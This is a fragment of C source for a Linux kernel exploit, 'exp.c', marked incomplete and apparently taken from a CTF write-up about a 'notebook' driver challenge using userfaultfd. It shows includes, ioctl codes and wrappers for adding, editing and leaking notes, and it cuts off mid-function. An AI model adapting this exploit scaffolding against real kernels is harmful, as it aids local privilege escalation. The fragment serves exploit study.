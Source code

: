 ```c
}
#endif //ROOTFS_UFFDEXPLOIT_H
```
exp.c（不完整）:
```c
//
// Created by root on 22-7-28.
//
#include <poll.h>
#include <errno.h>
#include <fcntl.h>
#include <stdio.h>
#include <signal.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <pthread.h>
#include <stdbool.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>
#include <linux/userfaultfd.h>

#include "uffdexploit.h"

#define ADD_CODE 256
#define GIFT_CODE 100
#define DELETE_CODE 512
#define EDIT_CODE 768

int fd = 0;

typedef struct notearg{
    size_t idx;
    size_t size;
    void* buf;
}notearg;

void noteadd(size_t idx, size_t size, void* buf);
void notegift(void* buf);
void notedel(size_t idx);
void noteedit(size_t idx, size_t size, void* buf);
void notewrite(const char* buf, size_t idx);
void notebook_msg();

void noteadd(size_t idx, size_t size, void* buf){
    printf("\033[1;34mAdd note #%zu...\n\033[m", idx);
    notearg arg = {idx, size, buf};
    if(size <= 0x60)
        ioctl(fd, ADD_CODE, &arg);
    else{
        printf("\033[1;34mAdding note which has size larger than 0x60, use edit...\n\033[m");
        arg.size = 0x60;
        ioctl(fd, ADD_CODE, &arg);
        arg.size = size;
        noteedit(idx, size, buf);
    }
}
void notegift(void* buf){
    printf("\033[1;32mFetch note information...\n\033[m");
    notearg arg = {0, 0, buf};
    ioctl(fd, GIFT_CODE, &arg);
```